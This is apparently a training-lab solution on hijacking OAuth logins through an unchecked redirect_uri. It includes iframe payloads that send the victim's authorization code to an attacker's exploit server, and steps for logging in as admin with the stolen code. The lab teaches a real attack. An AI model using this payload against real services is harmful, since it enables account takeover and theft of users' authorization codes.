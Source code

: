 You can log in with your own social media account using the following credentials: `wiener:peter`.

`<iframe src="https://oauth-0abc004303cc63d280136022028d0026.oauth-server.net/auth?client_id=l3cw3z4i0vood8pswv7pq&redirect_uri=https://0a7600b2034b635b8093626a007600f8.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>`

Solution:

1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorization request. This should start with `GET /auth?client_id=[...]`. Notice that when this request is sent, you are immediately redirected to the `redirect_uri` along with the authorization code in the query string. Send this authorization request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the `redirect_uri` without encountering an error. Notice that your input is used to generate the redirect in the response.
5. Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.
6. Go back to the exploit server and create the following `iframe` at `/exploit`:
    
    `<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`
7. Store the exploit and click "View exploit". Check that your `iframe` loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code.
8. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
9. Log out of the blog website and then use the stolen code to navigate to:
    
    `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE`
    
    The rest of the OAuth flow will be completed automatically and you will be logged in as the admin user. Open the admin panel and delete `carlos` to solve the lab.
